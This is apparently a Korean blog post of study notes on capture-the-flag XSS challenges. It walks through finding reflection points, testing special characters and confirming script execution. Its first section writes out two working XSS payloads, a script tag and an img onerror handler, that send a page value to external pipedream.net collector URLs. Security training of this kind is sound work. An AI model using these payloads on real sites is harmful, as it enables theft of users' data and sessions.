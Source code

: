 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS - iframe"
excerpt: "모의해킹 취업반 스터디 7기 11주차"

date: 2024-12-30
last_modified_at: 

tags: [TIL, WEB]
---
```


# CTF - Basic Script Prac
## mypage.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-11.png?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-12.png?raw=true">

1. `<script>alert(1)</script>`로 Reflected XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-13.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-14.gif?raw=true">

* 공격 코드 1  
```html
">
<script>
window.addEventListener('DOMContentLoaded',
    function() {
        let e = document.querySelectorAll('input')[1].placeholder;
        let i = new Image();
        i.src = 'https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie=' + e;
    });
</script>
```

* 공격 코드 2  
```html
">
<img src=. onerror="
let e = document.querySelectorAll('input')[1].placeholder;
let i = new Image();
i.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + e;
">
```

# CTF - Steal Info
## notice_list.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-1.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-2.gif?raw=true">

1. `<script>alert(1)</script>`로 XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-3.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-4.gif?raw=true">

* 공격 코드  
![pre tag가 일을 안 해요](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-9.png?raw=true)

# CTF - Steal Info 2
## notice_list.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-5.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-6.gif?raw=true">

1. `<script>alert(1)</script>`로 Stored XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-7.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-8.gif?raw=true">

* 공격 코드  
![pre tag가 일을 안 해요 2](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-10.png?raw=true)